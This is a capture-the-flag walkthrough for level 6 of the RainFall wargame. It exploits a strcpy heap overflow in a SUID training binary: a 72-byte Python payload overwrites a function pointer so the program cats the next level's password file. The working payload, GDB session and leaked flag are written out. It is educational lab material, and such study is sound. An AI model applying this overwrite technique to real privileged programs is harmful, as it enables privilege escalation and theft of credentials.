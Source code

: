 # Level 6 Walkthrough

In this level, we exploit a heap-based buffer overflow to hijack a function pointer and gain access to the next level’s password.

## Who am I?

```bash
level6@RainFall:~$ id
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
```

## Where am I?

```bash
level6@RainFall:~$ ll
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6*
```

We are in possession of a SUID binary owned by level7. Our goal is to exploit this binary to read the `.pass` file from level7.

---

## Program Behavior

Let’s first understand how the binary behaves when run under different conditions.

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 hello
Nope
```

A segmentation fault occurs when no argument is provided. With one argument, the program prints `Nope` and exits.

---

## Analysis

We now analyze the binary structure and control flow to find an entry point for exploitation.

We start by listing the functions:

```gdb
(gdb) info functions
...
0x08048454  n
0x08048468  m
0x0804847c  main
```

Decompiled logic:

* `main()` allocates two buffers with `malloc()`
* One buffer receives user input via `strcpy()`
* The other buffer holds a function pointer initially set to `m()`
* Finally, the function pointer is called

From the decompiled code:

```c
void main(...) {
  char *dest = malloc(0x40);
  void (**fn)() = malloc(4);
  *fn = m;
  strcpy(dest, argv[1]);
  (*fn)();
}
```

So we control the `strcpy()` destination, and can overflow to overwrite the function pointer `*fn`, which is called afterward.

We also know that the alternate function `n()` executes `system("/bin/cat /home/user/level7/.pass")`, which means it will directly print the password to stdout if we can redirect execution there.

---

## Finding the Overflow Offset

Our next goal is to determine the precise offset needed to overwrite the function pointer.

We use Metasploit’s pattern generator:

```bash
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5...
```

Run the binary with the pattern:

```gdb
(gdb) run Aa0Aa1Aa2...
...
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

Check the EIP value:

```gdb
(gdb) info registers eip
EIP: 0x41346341
```

Find the exact offset:

```bash
$ msf-pattern_offset -q 0x41346341
[*] Exact match at offset 72
```

---

## Redirecting Execution to `n()`

We know that the `n()` function reveals the password. Let’s redirect execution to it.

Function `n()` prints the password using:

```c
system("/bin/cat /home/user/level7/.pass");
```

So we want to overwrite the function pointer at `malloc(4)` with the address of `n()`.
We locate it in GDB:

```gdb
(gdb) p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

We build the payload:

```bash
$ python -c "print 'A' * 72 + '\x54\x84\x04\x08'" > /tmp/exploit
```

---

## Triggering the Exploit

Now that we have the payload, let’s test it and gain access to the password.

We first try to run the exploit using redirected input:

```bash
level6@RainFall:~$ python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/exploit
level6@RainFall:~$ cat /tmp/exploit | ./level6
Segmentation fault (core dumped)
```

As expected, this fails because the binary crashes if no argument is provided.

**Correct usage:** We must pass the payload as a command-line argument:

```bash
level6@RainFall:~$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We successfully redirected execution to the function `n()` and obtained the password.

---

## Files in this repository

Here is a summary of the files included in the repository for this level.

* `flag.txt`: file containing the retrieved flag
* `decompiled_level6/`: folder containing the reconstructed C code from Ghidra
* `asm_analysis.md`: GDB analysis of the binary

---

## Conclusion

This final recap explains what vulnerability was exploited and how it led us to success.

This level showcases a classic heap-based overflow where we overwrite a function pointer located in a heap allocation. The use of `strcpy()` without bounds checking lets us go beyond the intended buffer and control execution flow. By carefully analyzing memory layout and offsets, we redirected execution to a desired internal function that gave us access to the next level.

